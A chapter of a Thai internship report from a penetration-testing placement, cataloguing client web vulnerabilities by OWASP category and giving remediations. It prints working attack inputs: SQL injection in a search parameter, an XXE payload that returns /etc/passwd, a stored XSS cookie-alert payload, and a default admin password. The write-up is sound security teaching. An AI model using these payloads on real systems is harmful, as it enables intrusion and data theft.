\chapter{สรุปผลการปฏิบัติงาน}
\label{chapter:experiment}

จากการสหกิจศึกษาเป็นเวลา 6 เดือน ตั้งแต่วันที่ \StartDWork ถึง \EndDWork ณ \Company

ในบทนี้ผู้เขียนได้สรุปกระบวนการดำเนินงานตั้งแต่เริ่มต้นโปรเจคไปจนจบโปรเจคที่ผู้เขียนได้เข้าไปมีส่วนร่วมในการทำงาน

นอกจากนี้ผู้เขียนได้สรุปรวบรวมและคัดสรรค์ช่องโหว่ที่พบเจอจากการค้นหาช่องโหว่ให้ลูกค้าของบริษัท และนำมาจัดกลุ่มตามหมวดหมู่ของ OWASP Top 10 ได้ดังนี้ โดยจะขอปิดชื่อบริษัทของลูกค้า และข้อมูลละเอียดอ่อนที่เป็นความลับของลูกค้า

\section{สรุปกระบวนการทำงาน}

\section{สรุปช่องโหว่ตามหวดหมู่ของ OWASP Top 10}

\subsection{Injection}

ในหัวข้อนี้จะพูดถึงการที่ผู้ประสงค์ร้ายสามารถแทรกคำสั่ง (Code) เข้าไปในระบบเพื่อให้ระบบทำงานตามที่ผู้ประสงค์ร้ายต้องการ พร้อมทั้งบอกถึงวิธีแก้ปัญหา

\subsubsection{SQL Injection}

เนื่องจากตัวเว็บแอปพลิเคชันรับ Input จากผู้ใช้ไปใช้งานโดยที่ไม่ได้ผ่านการตรวจสอบข้อมูล หรือทำความสะอาดข้อมูลก่อน ทำให้สามารถใส่คำสั่ง SQL เข้าไปทำงานได้ ความเสียหายจาก SQL Injection สามารถทำให้ผู้ประสงค์ร้ายเข้าถึงข้อมูลทุก ๆ อย่างที่อยู่ในฐานข้อมูลได้ด้วยสิทธิ์ของ Web Server หรือตามที่ผู้พัฒนาระบบกำหนดไว้ โดยระบบนี้เป็นระบบสำหรับค้นหาและเรียกดูข้อมูลย้อนหลังการทำธุรกรรม

\begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{sqlisearchpage.png}
	\caption{หน้าค้นหาข้อมูล}
	\label{Fig:sqlisearchpage.png}
\end{figure}

เมื่อทดลองเรียกข้อมูลย้อนหลังตัว Browser จะส่ง Request ไปดังนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING_NAME &searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

ผู้ทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy

\begin{lstlisting}[language=sql,numbers=none] 
SENDING_NAME='YYYY' and '1'='1' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&<@\textcolor{red}{searchBy=SENDING\_NAME='YYYY' and '1'='1' and SENDING\_NAME}@>&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

เนื่องจากคำสิ่งที่เรา Inject เข้าไปนั้น จะมีค่าเป็น True เสมอ ซึ่งได้ Response ดังนี้ ซึ่งเป็น Response ที่มีข้อมูล

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 3984
[...]

{"iTotalRecords":12,"iTotalDisplayRecords":12,"data":[[1,"1905101637LUZFN81","IRM","YYYY","George Adam1","567899000000","George Adam1","SGD","99.02","THB","37.58","31.3200000","FA","318013"]]
[...]
\end{lstlisting}

จากนั้นทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy แต่ครั้งนี้คำสั่งที่ใส่ไปจะมีค่าเป็น False

\begin{lstlisting}[language=sql,numbers=none] 
SENDING_NAME='YYYY' and '1'='0' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&<@\textcolor{red}{searchBy=SENDING\_NAME='YYYY' and '1'='0' and SENDING\_NAME}@>&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

Response ที่ได้กลับมาไม่มีข้อมูลอะไรอยู่เลย

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 54
[...]

{"iTotalRecords":0,"iTotalDisplayRecords":0,"data":[]}
\end{lstlisting}

ดังนั้นจึงยืนยันได้ว่าคำสั่ง SQL ที่ใส่เข้าไปถูกตัวเว็บแอปพลิเคชันนำไปทำงาน ซึ่งตัวแปรที่ทำให้เกิดช่องโหว่นี้คือตัวแปร searchBy

วิธีการแก้ไขคือควรใช้ SQL Prepare Statements แทนการเชื่อม String เนื่องจากส่วนข้อมูล Input กับ คำสั่งจะไม่ถูกนำมาต่อกันโดยตรง ถ้าไม่สามารถใช้ SQL Prepare Statement ได้ เนื่องจากข้อจำกับของภาษา หรือ Framework ก็ไม่ควรนำ Input จาก User เข้าไปใช้กับ Database โดยตรง

ซึ่งหมายความว่าตัวอักขระพิเศษเช่น Single Quote (') หรือ Double Quote (") จะต้องถูก Escape ก่อน (แปลงจาก ' เป็น \') เพื่อให้ Database มองว่าเป็นข้อมูล ไม่ใช่คำสั่ง

นอกจากนี้ยังควรกรองข้อมูล Input ด้วยวิธีแบบ Whitelist เช่นเลข ID สินค้าควรเช็คที่ฝั่ง Server ว่าประกอบไปด้วยตัวเลขเท่านั้น เป็นต้น และควรกรอกข้อมูลกับทุก ๆ Input ที่ผู้ใช้สามารถใส่เข้ามาได้ เช่น Cookie, Form ที่ถูกซ่อนอยู่ และ Request Header ต่าง ๆ เป็นต้น

แต่ทว่าในกรณีนี้ SQL Prepare Statement ไม่สามารถใช้ได้กับข้อมูลที่เป็น Metadata ของ Database เช่น ชื่อ Table, Column เป็นต้น ดังนั้นควรใช้กระบวนการกรองข้อมูลแบบ Whitelist กล่าวคือมี List ของชื่อ Column ที่ใช้ได้ หากข้อมูลที่ได้รับมาอยู่นอกเหนือจาก List ที่มีให้ปฏิเสธข้อมูลนี้ทันที

\subsection{Broken Authentication}

\subsubsection{	Administrative Interfaces with Weak Password}

ผู้ทดสอบระบบสามารถเข้าถึงหน้าเว็บที่ผู้ดูแลระบบใช้ควบคุมระบบทั้งหมดได้

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.6\columnwidth]{rapid4login.png}
	\caption{หน้า Login ของผู้ดูแลระบบ}
	\label{Fig:rapid4login.png}
\end{figure}

ซึ่งผู้ทดสอบระบบสามารถเข้าระบบได้ด้วย Username: admin Password:P@ssw0rd ซึ่งถือว่าเป็นรหัสผ่านเริ่มต้นที่ไม่ปลอดภัย วิธีการแก้ไขคือควรเปลี่ยนรหัสผ่าน

\subsection{Sensitive Data Exposure}

ในหัวข้อนี้ผู้เขียนจะเล่าถึงเหตุการณ์ที่ไปพบเจอข้อมูลที่สำคัญ และสามารถเข้าถึงได้จากภายนอกโดยที่ไม่ได้มีการป้องกันใด ๆ
 
 
\subsubsection{Use of hard-coded cryptographic key in WebSocket communication}

การใช้กุญแจที่เข้ารหัสที่ฝังอยู่ในตัวโปรแกรม ทำให้เพิ่มโอกาสให้ผู้ประสงค์ร้ายถอดรหัสข้อมูลของใครก็ได้

ผู้เขียนค้นพบการใช้งานของกุญแจที่ใช้เข้ารหัสการสื่อสารด้วยโปรโตคอล WebSocket ฝังอยู่ในไฟล์ JavaScript ที่สามารถเข้าถึงได้โดยที่ไม่ต้องยืนยันตัวตน

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{aeskeyleaks.png}
	\caption{กุญแจที่ใช้เข้ารหัสถอดรหัสถูกพบเจอในไฟล์ JavaScript}
	\label{Fig:aeskeyleaks.png}
\end{figure}
 
 ไม่ควรใช้การเข้ารหัสด้วยกุญแจที่ถูกฝังอยู่ในไฟล์ JavaScript เพราะว่าใคร ๆ ก็สามารถเข้าถึงได้ ในกรณีนี้ควรไปใช้ WebSocket Secure (WSS) จะดีกว่า
 
 \subsubsection{Application's Components Information Disclosure}
 
 ตรวจพบเจอเวอร์ชั่นของเทคโนโลยีที่เว็บแอปพลิเคชันใช้งานส่งมาใน HTTP Response Headers ซึ่งผู้ประสงค์ร้ายสามารถนำข้อมูลส่วนนี้ค้นหาช่องโหว่ที่อยู่ใน Internet แล้วนำมาโจมตีช่องโหว่ได้ หรือแม้แต่หน้าตั้งต้นของ Web Server ก็สามารถระบุเวอร์ชันได้เช่นกัน
 
 ตัวอย่าง HTTP Response ที่แสดงถึงเลขเวอร์ชั่นของโปรแกรมที่ใช้งาน
 
 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
X-Powered-By: JSP/2.3
Server: JBoss-EAP/7
[...]
 \end{lstlisting}
 
ตัวอย่างหน้าตั้งต้นของ JBoss Web Server

\newpage

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{jbosshome.png}
	\caption{หน้าตั้งต้นของ JBoss Web Server EAP 7}
	\label{Fig:jbosshome.png}
\end{figure}

วิธีการแก้คือต้องตั้งค่า Web Server ให้ปิดการแสดงเลข Version และลบหน้า Default Page 
 
\subsection{XML External Entities (XXE)}

ผู้ทดสอบระบบสามารถใส่ XML Entities ที่สามารถใช้เรียก External Resource เข้าไปยัง HTTP Request เพื่อให้ตัว XML Parser นั้น Include ตัว External Resource ที่เราต้องการ (ในที่นี้คือไฟล์ /etc/passwd ที่เก็บรายชื่อ User ทั้งหมดในระบบ) แล้วส่งข้อมูลนั้นกลับมาผ่าน HTTP Response ซึ่งด้านล่างคือตัวอย่าง Request ที่ใช้ Exploit

\begin{lstlisting}[numbers=none] 
POST /wsgw/services/[REDACTED]SecureService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: urn:MSG
Content-Type: text/xml;charset=UTF-8
Host: [REDACTED]
Content-Length: 7973

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://[REDACTED]/webservice">
<soapenv:Header/>
<soapenv:Body>
<web:MSG>
<web:[REDACTED]><![CDATA[

<@\textcolor{red}{<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>}@>

<Service value="Export">
<CorpName>[REDACTED]</CorpName>
<CorpId>&xxe;</CorpId>
<MessageType>14</MessageType>
<ReqUId>SECTEST\_20190916008</ReqUId>
<Data>
[...]  
</Data>
</Service>
]]></web:[REDACTED]>
</web:MSG>
</soapenv:Body>
</soapenv:Envelope>
\end{lstlisting}

และผลลัพธ์ที่ได้คือข้อมูลภายในไฟล์ /etc/passwd

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Thu, 26 Sep 2019 11:14:01 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: text/xml;charset=UTF-8
Content-Length: 4758
Connection: close

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><MSGResponse xmlns="http://[REDACTED]/webservice" xmlns:ns2="http://[REDACTED]/xsd"><return><ns2:bankCode></ns2:bankCode><ns2:bankName></ns2:bankName><ns2:commercialInvoiceNo></ns2:commercialInvoiceNo><ns2:companyCode>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
systemd-bus-proxy:x:999:997:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:995:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstor-agemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
[...]
\end{lstlisting}

วิธีการแก้ไขคือต้องไม่ให้ XML Parser สามารถ Include ข้อมูลจากภายนอกได้ แต่ถ้าจำเป็นต้องใช้ Feature นี้จริง ๆ ควรกรองข้อมูลก่อน Parse XML

\subsection{Broken Access Control}

ในหัวข้อนี้ผู้เขียนจะเล่าถึงช่องโหว่ที่เกิดจากการควบคุมสิทธิผู้ใช้งานว่าทำอะไรได้และไม่ได้ไม่ดีพอ ทำให้ผู้ประสงค์ร้ายสามารถเข้าถึงการทำงานและข้อมูลต่าง ๆ ที่ไม่ได้รับอนุญาต เช่น การเข้าถึงข้อมูลของ ผู้ใช้ผู้อื่น การเข้าถึงไฟล์สำคัญของระบบ การแก้ไขข้อมูลของผู้ใช้อื่น ๆ การกระทำคำสั่งของผู้ดูแลระบบโดยใช้สิทธิ์ของผู้ใช้ธรรมดา เป็นต้น

\subsubsection{Unauthenticated access to all resources through direct access}

ผู้ทดสอบสามารถเข้าถึงทรัพยากรต่าง ๆ ในระบบโดยที่ไม่ต้องเข้าสู่ระบบ โดยในที่นี้ผู้ทดสอบสามารถเข้าถึงรายชื่อของสิทธิ์ต่าง ๆ (Roles)โดยที่ไม่ได้ผ่านการเข้าสู่ระบบ

ผู้ทดสอบเข้า URL ต่อไปนี้ผ่านโหมดไม่ระบุตัวตนของ Google Chrome

\begin{lstlisting}[numbers=none] 
http://[REDACTED]/admin.tml?flow=list&currentPage=1&pageSize=20&menu=admin
\end{lstlisting}

เว็บแอปพลิเคชันส่ง Response กลับมาในรูปของ JSON ซึ่งควรเป็นผู้ที่เข้าสู่ระบบแล้วเท่านั้น ถึงจะเข้าถึงได้

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.6\columnwidth]{brokenaccesstoallresource.png}
	\caption{รายชื่อของสิทธิ์ทั้งหมดที่มีอยู่ในระบบ}
	\label{Fig:brokenaccesstoallresource.png}
\end{figure}

วิธีการแก้ไขคือควรตรวจสอบสิทธิ์ของผู้ใช้งานทุกครั้งในทุก ๆ Request ว่าสามารถเข้าถึงทรัพยากรใด ๆ ได้บ้าง

\subsection{Security Misconfiguration}

\subsubsection{Missing HTTP Security Headers}

 เว็บแอปพลิเคชันสามารถตั้งค่า HTTP Response Header ที่ส่งไปยัง Browser เพิ่มเติมได้ เพื่อบอกให้ Browser ช่วยป้องกันการเกิดบางช่องโหว่
 
 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Powered-By: JSP/2.3
Server: JBoss-EAP/7
<@\textcolor{red}{Cache-Control: no-cache, no-store}@>
<@\textcolor{red}{X-XSS-protection: 1; mode=block}@> 
<@\textcolor{red}{X-Frame-Options: SAMEORIGIN; DENY}@> 
Date: Thu, 09 May 2019 08:09:38 GMT
Connection: close
Content-Type: text/html;charset=UTF-8
 \end{lstlisting}
 
สามารถอธิบายประโยชน์ของแต่ Headers ได้ดังนี้

\begin{enumerate}
	\item Cache-Control: no-cache, no-store เป็นการบอกให้ Browser ไม่ Cache ข้อมูล Response ไว้
	\item X-XSS-protection: 1; mode=block เป็นการบอกให้ Browser ให้ตรวจจับและป้องกันการทำงานของ Cross-Site Scripting
	\item X-Frame-Options: SAMEORIGIN; DENY สามารถป้องกันการโจมตี "Click-jacking" \cite{} ได้ เป็นการบอก Browser ให้ Block การทำงานของ iframe
\end{enumerate}

\subsection{Cross-Site Scripting}

\subsubsection{Stored Cross-Site Scripting}

เนื่องจากก่อนการบันทึกข้อมูลลง Database ไม่มีการกรองข้อมูล หรือ Encode ข้อมูล Input จาก User มาแสดงบน Browser ทำให้ผู้ประสงค์ร้ายสามารถแทรกโค้ด JavaScript หรือ HTML เข้ามาในหน้าเว็บได้ ซึ่งทุก ๆ ครั้งที่เหยื่อเข้าหน้าเว็บโค้ดที่ถูกฝังไว้จะทำงานทันที ทำให้ข้อมูลในหน้าเว็บถูกเปลี่ยนแปลง หรือถูกขโมยรหัสผ่านได้ หน้าเว็บที่ค้นพบช่องโหว่คือดังรูปต่อไปนี้

\begin{figure}[h]
	\centering
	
\includegraphics[width=1\columnwidth]{storedxss.png}
	\caption{หน้าเว็บสำหรับเพิ่มข้อมูล}
	\label{Fig:storedxss.png}
\end{figure}

ผู้ทดสอบใส่โค้ด HTML และ JavaScript ที่จะ Alert ค่า Cookie เมื่อมีใครเข้าหน้าเว็บค้นหาข้อมูลของ Partner ในโลกแห่งความโหดร้าย ผู้ประสงค์ร้ายจะไม่ฝังโค้ดเพียงแค่ Alert ค่าของ Cookie แต่จะขโมย Cookie ไปสวมรอยเป็นเหยื่อโดยทันที

 \begin{lstlisting}[language=html,numbers=none] 
<svg onload=alert(document.cookie)></svg> <input onfocus=alert(document.cookie) autofocus>
\end{lstlisting}

จากนั้นเข้าหน้าค้นหาข้อมูลของ Partner แล้วเรียกดูข้อมูล Partner ทั้งหมด (ซึ่งจะมีข้อมูล Partner ชื่อ SECXSS1 ที่ผู้ทดสอบได้ใส่โค้ดด้านบนไว้) จากนั้นจะเห็น Alert ดังรูปด้านล่าง

\begin{figure}[h]
	\centering
	
\includegraphics[width=1\columnwidth]{storedxsscookie.png}
	\caption{หน้าเว็บสำหรับเพิ่มข้อมูล}
	\label{Fig:storedxsscookie.png}
\end{figure}

วิธีการแก้คือ ข้อมูล Input ทุกอย่างต้องถูกกรองก่อน หรือถูก Encode ก่อนที่จะส่งไปแสดงที่ Browser

หากเลือกวิธีการกรองข้อมูล ก็ควรที่จะรัดกุมในการกรองข้อมูล โดยใช้วิธีการดังนี้

\begin{enumerate}
	\item วิธีการ Whitelist Input ที่ยอมรับ เช่นเลข ID สินค้าควรเช็คที่ฝั่ง Server ว่า Input ประกอบไปด้วยตัวเลขเท่านั้น
	\item วิธีการกรองตามชนิดของตัวแปร เช่น บาง Input รับข้อมูลเพียงแค่ตัวเลขทศนิยมเท่านั้น ถ้ามีใส่ข้อมูลชนิดอื่นเข้ามาให้ปฏิเสธ
	\item วิธีการกรองรูปแบบของข้อมูล เช่น หากเจอ String ที่มีรูปแบบ <script> หรือ </script> ให้ปฏิเสธข้อมูลเหล่านั้นทันที
\end{enumerate}

การกรองข้อมูลตามหัวข้อข้างต้นนอกจากจะช่วยป้องกันช่องโหว่แล้ว ยังช่วยลดโอกาสในการเกิด Error ที่เกิดจากข้อมูลแปลก ๆ อีกด้วย

แต่ถ้าหากเลือกที่จะใช้วิธีการ Encode ข้อมูล ก็ควร Encode ให้ Browser มองเห็นว่าเป็นข้อมูลไม่ใช่คำสั่ง โดยที่ตัวอักขระพิเศษที่จะถูก Encode ได้แก่ [;()"´`,<>/\'=] จะถูก Encode เป็น

 \begin{lstlisting}[numbers=none]
&lsqb;&semi;&lpar;&rpar;&quot;&acute;&grave;&comma;&lt;&gt;&sol;&bsol;&apos;&equals;&rsqb;
\end{lstlisting}

\subsection{Insecure Deserialization}

\subsection{Using Components with Known Vulnerabilities}

\subsection{Insufficient Logging and Monitoring}

Log เปรียบเสมือนสมุดบันทึกประจำวันของคนเรา ไม่ว่าจะเกิดเหตุการณ์อะไรขึ้น เราก็จะจดบันทึกเหตุการณ์นั้น ๆ ลงในสมุดบันทึก ในทางคอมพิวเตอร์ก็เช่นกัน ตั้งแต่เปิดเครื่อง จนปิดเครื่อง หรือเปิดโปรแกรม จนปิดโปรแกรมก็ต้องเกิดเหตุการณ์ต่าง ๆ มากมาย ซึ่งคอมพิวเตอร์จะบันทึกเหตุการณ์ต่าง ๆ ไว้ในไฟล์ (Log File)

ตัวอย่างข้อมูลไฟล์บันทึกเหตุการณ์ของ Web Application ที่เขียนด้วย Spring Boot

\begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{springbootlog.png}
	\caption{ตัวอย่าง Log ของ Spring Boot Web Framework}
	\label{Fig:springbootlog.png}
\end{figure}

แต่ละบรรทัดจะบ่งบอกถึงเหตุการณ์ต่าง ๆ เช่น ใช้ไฟล์ตั้งค่าไฟล์ไหน โปรไฟล์อะไร เปิด Port อะไรอยู่ เป็นต้น

และถ้าหากระบบสารสนเทศเราประกอบไปด้วยหลาย ๆ ส่วน เช่น Spring Boot สำหรับส่วนเว็บแอปพลิเคชัน PostgreSQL สำหรับฐานข้อมูล Redis สำหรับเก็บ Session ของผู้ใช้งาน เป็นต้น นั่นหมายความว่าหากเกิดข้อผิดพลาดในระบบ ก็ต้องไล่เปิดไฟล์ทีละไฟล์เพื่อหาสาเหตุ ซึ่งเป็นการกระทำที่ช้า แต่ทว่าในบางบริษัทที่ผู้เขียนไปทำ Penetration Testing ยังคงใช้วิธีการข้างต้นอยู่ ทำให้เมื่อมีเหตุการณ์อะไรเกิดขึ้น กว่าจะค้นหาต้นตอได้ก็จะกินเวลานานมาก

ดังนั้นหากต้องการจัดการกับข้อมูล Log อย่างมีประสิทธิ์ภาพควรใช้ Tools เข้ามาช่วยจัดการ Log เครื่องมือที่นิยมในปัจจุบันคือ ELK Stack ซึ่งประกอบไปด้วย Elasticsearch\cite{}, Logstash\cite{} และ Kibana\cite{}

สมมุติว่าเกิดเหตุการณ์ Brute Force Directory ขึ้นมาบนเว็บแอปพลิเคชัน เราสามารถค้นหาได้ทันทีว่าเกิดการ Brute Force ตั้งแต่เวลาใดถึงเวลาใด แล้วผู้กระทำได้ Brute Force Directory อะไรไปแล้วบ้าง

\begin{figure}[h!]
	\centering
